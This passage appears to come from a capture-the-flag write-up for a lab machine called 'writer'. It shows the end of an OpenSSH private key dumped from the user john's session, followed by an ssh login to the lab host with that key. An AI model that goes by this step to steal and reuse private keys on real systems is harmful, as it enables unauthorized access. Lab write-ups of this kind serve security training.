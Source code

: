```
ScLCxRkDbRgOJIrBvJv/2kLGX5ZWDyOJ+ANaV4v+zQNBOHMTR/sbf/2TEcLLH2oSuuZOvm
HPdahVpeUd2cPcFGZfxtdIqybmF1AwAAAAMBAAEAAAGAZMExObg9SvDoe82VunDLerIE+T
9IQ9fe70S/A8RZ7et6S9NHMfYTNFXAX5sP5iMzwg8HvqsOSt9KULldwtd7zXyEsXGQ/5LM
VrL6KMJfZBm2eBkvzzQAYrNtODNMlhYk/3AFKjsOK6USwYJj3Lio55+vZQVcW2Hwj/zhH9
0J8msCLhXLH57CA4Ex1WCTkwOc35sz+IET+VpMgidRwd1b+LSXQPhYnRAUjlvtcfWdikVt
2+itVvkgbayuG7JKnqA4IQTrgoJuC/s4ZT4M8qh4SuN/ANHGohCuNsOcb5xp/E2WmZ3Gcm
bB0XE4BEhilAWLts4yexGrQ9So+eAXnfWZHRObhugy88TGy4v05B3z955EWDFnrJX0aMXn
l6N71m/g5XoYJ6hu5tazJtaHrZQsD5f71DCTLTSe1ZMwea6MnPisV8O7PC/PFIBP+5mdPf
3RXx0i7i5rLGdlTGJZUa+i/vGObbURyd5EECiS/Lpi0dnmUJKcgEKpf37xQgrFpTExAAAA
wQDY6oeUVizwq7qNRqjtE8Cx2PvMDMYmCp4ub8UgG0JVsOVWenyikyYLaOqWr4gUxIXtCt
A4BOWMkRaBBn+3YeqxRmOUo2iU4O3GQym3KnZsvqO8MoYeWtWuL+tnJNgDNQInzGZ4/SFK
23cynzsQBgb1V8u63gRX/IyYCWxZOHYpQb+yqPQUyGcdBjpkU3JQbb2Rrb5rXWzUCzjQJm
Zs9F7wWV5O3OcDBcSQRCSrES3VxY+FUuODhPrrmAtgFKdkZGYAAADBAPSpB9WrW9cg0gta
9CFhgTt/IW75KE7eXIkVV/NH9lI4At6X4dQTSUXBFhqhzZcHq4aXzGEq4ALvUPP9yP7p7S
2BdgeQ7loiRBng6WrRlXazS++5NjI3rWL5cmHJ1H8VN6Z23+ee0O8x62IoYKdWqKWSCEGu
dvMK1rPd3Mgj5x1lrM7nXTEuMbJEAoX8+AAxQ6KcEABWZ1xmZeA4MLeQTBMeoB+1HYYm+1
3NK8iNqGBR7bjv2XmVY6tDJaMJ+iJGdQAAAMEAz9h/44kuux7/DiyeWV/+MXy5vK2sJPmH
Q87F9dTHwIzXQyx7xEZN7YHdBr7PHf7PYd4zNqW3GWL3reMjAtMYdir7hd1G6PjmtcJBA7
Vikbn3mEwRCjFa5XcRP9VX8nhwVoRGuf8QmD0beSm8WUb8wKBVkmNoPZNGNJb0xvSmFEJ/
BwT0yAhKXBsBk18mx8roPS+wd9MTZ7XAUX6F2mZ9T12aIYQCajbzpd+fJ/N64NhIxRh54f
Nwy7uLkQ0cIY6XAAAAC2pvaG5Ad3JpdGVyAQIDBAUGBw==
-----END OPENSSH PRIVATE KEY-----
john@writer:/var/spool/postfix$
```

```
$ ssh -i john john@10.129.182.107
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 31 Jul 23:38:17 UTC 2021

  System load:           0.15
  Usage of /:            64.6% of 6.82GB
  Memory usage:          37%
  Swap usage:            0%
  Processes:             289
  Users logged in:       2
  IPv4 address for eth0: 10.129.182.107
  IPv6 address for eth0: dead:beef::250:56ff:feb9:8bc6


0 updates can be applied immediately.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Jul 31 21:51:56 2021 from 10.10.14.22
```
